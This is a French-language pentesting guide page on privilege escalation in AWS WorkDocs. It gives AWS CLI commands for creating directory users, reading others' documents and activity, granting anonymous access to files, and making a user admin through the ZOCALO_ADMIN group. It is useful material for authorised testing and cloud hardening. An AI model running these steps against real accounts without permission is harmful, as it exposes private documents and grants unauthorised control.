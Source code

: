 # AWS - Privilège d'escalade WorkDocs

## WorkDocs

Pour plus d'informations sur WorkDocs, consultez :

{% content-ref url="../../aws-pentesting/aws-services/aws-directory-services-workdocs-enum.md" %}
[aws-directory-services-workdocs-enum.md](../../aws-pentesting/aws-services/aws-directory-services-workdocs-enum.md)
{% endcontent-ref %}

### `workdocs:CreateUser`

Créez un utilisateur dans le répertoire indiqué, puis vous aurez accès à la fois à WorkDocs et à AD :

```bash
# Créer un utilisateur (créé dans AD)
aws workdocs create-user --username testingasd --given-name testingasd --surname testingasd --password <password> --email-address name@directory.domain --organization-id <directory-id>
```

### `workdocs:GetDocument`, `(workdocs:`DescribeActivities`)`

Les fichiers peuvent contenir des informations sensibles, lisez-les :

```bash
# Obtenir ce qui a été créé dans le répertoire
aws workdocs describe-activities --organization-id <directory-id>

# Obtenir ce que chaque utilisateur a créé
aws workdocs describe-activities --user-id "S-1-5-21-377..."

# Obtenir le fichier (une URL pour accéder au contenu sera récupérée)
aws workdocs get-document --document-id <doc-id>
```

### `workdocs:AddResourcePermissions`

Si vous n'avez pas accès à la lecture de quelque chose, vous pouvez simplement l'accorder

```bash
# Ajouter une autorisation pour que tout le monde puisse voir le fichier
aws workdocs add-resource-permissions --resource-id <id> --principals Id=anonymous,Type=ANONYMOUS,Role=VIEWER
## Cela donnera un identifiant, le fichier sera accessible dans : https://<name>.awsapps.com/workdocs/index.html#/share/document/<id>
```

### `workdocs:AddUserToGroup`

Vous pouvez rendre un utilisateur administrateur en le plaçant dans le groupe ZOCALO_ADMIN.\
Pour cela, suivez les instructions de [https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html](https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html)

Connectez-vous avec cet utilisateur dans Workdoc et accédez au panneau d'administration dans `/workdocs/index.html#/admin`

Je n'ai trouvé aucun moyen de le faire à partir de la ligne de commande.